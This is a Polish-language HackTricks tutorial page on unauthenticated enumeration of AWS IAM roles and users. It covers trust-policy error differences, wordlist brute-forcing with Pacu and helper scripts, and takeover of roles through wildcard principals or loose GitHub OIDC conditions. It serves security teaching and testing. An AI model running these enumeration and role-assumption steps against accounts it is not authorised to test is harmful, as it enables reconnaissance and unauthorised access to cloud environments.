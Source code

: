 # AWS - IAM & STS Unauthenticated Enum

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}

## Enumeracja ról i nazw użytkowników w koncie

### ~~Brute-Force za pomocą Assume Role~~

{% hint style="danger" %}
**Ta technika już nie działa** ponieważ, niezależnie od tego, czy rola istnieje, czy nie, zawsze otrzymujesz ten błąd:

`An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::947247140022:user/testenv is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::429217632764:role/account-balanceasdas`

Możesz **przetestować to, uruchamiając**:

`aws sts assume-role --role-arn arn:aws:iam::412345678909:role/superadmin --role-session-name s3-access-example`
{% endhint %}

Próba **przyjęcia roli bez niezbędnych uprawnień** wywołuje komunikat o błędzie AWS. Na przykład, jeśli brak uprawnień, AWS może zwrócić:
```ruby
An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::012345678901:user/MyUser is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::111111111111:role/aws-service-role/rds.amazonaws.com/AWSServiceRoleForRDS
```
Ta wiadomość potwierdza istnienie roli, ale wskazuje, że jej polityka przyjmowania ról nie pozwala na twoje przyjęcie. W przeciwieństwie do tego, próba **przyjęcia nieistniejącej roli prowadzi do innego błędu**:
```less
An error occurred (AccessDenied) when calling the AssumeRole operation: Not authorized to perform sts:AssumeRole
```
Interesująco, ta metoda **rozróżniania między istniejącymi a nieistniejącymi rolami** ma zastosowanie nawet w różnych kontach AWS. Posiadając ważny identyfikator konta AWS i docelową listę słów, można enumerować role obecne w koncie bez napotkania jakichkolwiek wrodzonych ograniczeń.

Możesz użyć tego [skryptu do enumeracji potencjalnych głównych](https://github.com/RhinoSecurityLabs/Security-Research/tree/master/tools/aws-pentest-tools/assume_role_enum) wykorzystując ten problem.

### Polityki zaufania: Brute-Force ról i użytkowników między kontami

Konfigurowanie lub aktualizowanie **polityki zaufania roli IAM polega na określeniu, które zasoby lub usługi AWS mają prawo przyjąć tę rolę** i uzyskać tymczasowe poświadczenia. Jeśli określony zasób w polityce **istnieje**, polityka zaufania zapisuje się **pomyślnie**. Jednak jeśli zasób **nie istnieje**, generowany jest **błąd**, wskazujący, że podano nieprawidłowego głównego.

{% hint style="warning" %}
Zauważ, że w tym zasobie możesz określić rolę lub użytkownika między kontami:

* `arn:aws:iam::acc_id:role/role_name`
* `arn:aws:iam::acc_id:user/user_name`
{% endhint %}

To jest przykład polityki:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":
{
"AWS":"arn:aws:iam::216825089941:role\/Test"
},
"Action":"sts:AssumeRole"
}
]
}
```
#### GUI

To jest **błąd**, który znajdziesz, jeśli używasz **roli, która nie istnieje**. Jeśli rola **istnieje**, polityka zostanie **zapisana** bez żadnych błędów. (Błąd dotyczy aktualizacji, ale działa również podczas tworzenia)

![](<../../../.gitbook/assets/image (153).png>)

#### CLI
```bash
### You could also use: aws iam update-assume-role-policy
# When it works
aws iam create-role --role-name Test-Role --assume-role-policy-document file://a.json
{
"Role": {
"Path": "/",
"RoleName": "Test-Role",
"RoleId": "AROA5ZDCUJS3DVEIYOB73",
"Arn": "arn:aws:iam::947247140022:role/Test-Role",
"CreateDate": "2022-05-03T20:50:04Z",
"AssumeRolePolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::316584767888:role/account-balance"
},
"Action": [
"sts:AssumeRole"
]
}
]
}
}
}

# When it doesn't work
aws iam create-role --role-name Test-Role2 --assume-role-policy-document file://a.json
An error occurred (MalformedPolicyDocument) when calling the CreateRole operation: Invalid principal in policy: "AWS":"arn:aws:iam::316584767888:role/account-balanceefd23f2"
```
Możesz zautomatyzować ten proces za pomocą [https://github.com/carlospolop/aws\_tools](https://github.com/carlospolop/aws_tools)

* `bash unauth_iam.sh -t user -i 316584767888 -r TestRole -w ./unauth_wordlist.txt`

Używając [Pacu](https://github.com/RhinoSecurityLabs/pacu):

* `run iam__enum_users --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* `run iam__enum_roles --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* Rola `admin` użyta w przykładzie to **rola w twoim koncie, która ma być podszywana** przez pacu, aby stworzyć potrzebne polityki do enumeracji

### Privesc

W przypadku, gdy rola była źle skonfigurowana i pozwala każdemu na jej przyjęcie:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "sts:AssumeRole"
}
]
}
```
The attacker could just assume it.

## Federacja OIDC osób trzecich

Wyobraź sobie, że udało ci się odczytać **Github Actions workflow**, który uzyskuje dostęp do **roli** wewnątrz **AWS**.\
To zaufanie może dać dostęp do roli z następującą **polityką zaufania**:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::<acc_id>:oidc-provider/token.actions.githubusercontent.com"
},
"Action": "sts:AssumeRoleWithWebIdentity",
"Condition": {
"StringEquals": {
"token.actions.githubusercontent.com:aud": "sts.amazonaws.com"
}
}
}
]
}
```
Ta polityka zaufania może być poprawna, ale **brak dodatkowych warunków** powinien budzić twoje wątpliwości.\
Dzieje się tak, ponieważ poprzednią rolę może przyjąć **KTOKOLWIEK z Github Actions**! Powinieneś również określić w warunkach inne rzeczy, takie jak nazwa organizacji, nazwa repozytorium, środowisko, gałąź...

Inną potencjalną błędną konfiguracją jest **dodanie warunku** takiego jak poniżej:
```json
"StringLike": {
"token.actions.githubusercontent.com:sub": "repo:org_name*:*"
}
```
Zauważ, że **znak wieloznaczny** (\*) przed **dwukropkiem** (:). Możesz stworzyć organizację, taką jak **org\_name1** i **przyjąć rolę** z akcji Github.

## Odniesienia

* [https://www.youtube.com/watch?v=8ZXRw4Ry3mQ](https://www.youtube.com/watch?v=8ZXRw4Ry3mQ)
* [https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/](https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/)

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
